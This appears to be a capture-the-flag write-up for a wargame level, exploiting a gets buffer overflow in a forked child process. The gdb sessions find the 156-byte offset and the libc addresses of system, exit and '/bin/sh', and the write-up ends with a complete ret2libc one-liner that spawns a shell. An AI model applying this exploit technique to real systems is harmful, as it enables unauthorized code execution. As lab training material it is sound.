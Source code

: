 # level04

## Step 1: Understand the program
1. At the beginning, the program `forks`
2. The parent process `waits` until the child process `exits` or until a signal is received
3. The child process reads from `stdin` with a __vulnerable__ `gets` call
    - __The program segfault when the input is too long by overwriting `eip` or `eax` (I didn't try to know)__



## Step 2: Find the offset between the buffer and `eip` (or `eax`)

> We need to entrer in the child process with gdb because the vulnerability is in the child process.

```bash
(gdb) set follow-fork-mode child
```

If omitted, gdb will stays on the parent process

```console
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1948]
[Switching to process 1948]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
```

Offset = 156

> [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

## Step 3

Once in the child process, we can find the address of `system`, `exit` and `"/bin/sh"` to build a [__Ret2libc__](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

- Address of `system`:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```
- Address of `exit`:
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```
- Address of `"/bin/sh"`:
```
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

## Exploit
```bash
(python -c 'print "A" * (156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | /home/users/level04/level04
```